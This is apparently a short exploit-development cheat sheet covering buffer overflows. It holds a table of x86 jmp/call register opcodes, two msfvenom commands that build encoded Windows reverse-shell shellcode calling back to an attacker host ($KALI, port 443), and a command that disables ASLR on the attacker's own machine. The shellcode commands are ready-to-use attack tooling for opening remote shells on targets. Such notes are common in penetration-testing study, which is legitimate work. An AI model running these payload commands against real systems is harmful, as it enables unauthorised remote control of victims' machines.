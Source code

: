 | Register | jmp | call | 
| ----- | ----- |  ----- |
| EAX | FFE0 |  FFD0 |
| ECX | FFE1 |  FFD1 |
| EDX | FFE2 |  FFD2 |  
| EBX | FFE3 |  FFD3 |
| ESP | FFE4 |  FFD4 |  
| EBP | FFE5 |  FFD5 |
| ESI | FFE6 |  FFD6 |  
| EDI | FFE7 |  FFD7 |

#### MSFvenom C shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Disable ASLR on kali while looking for return address

This will keep the return address from jumping around.
```
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```

















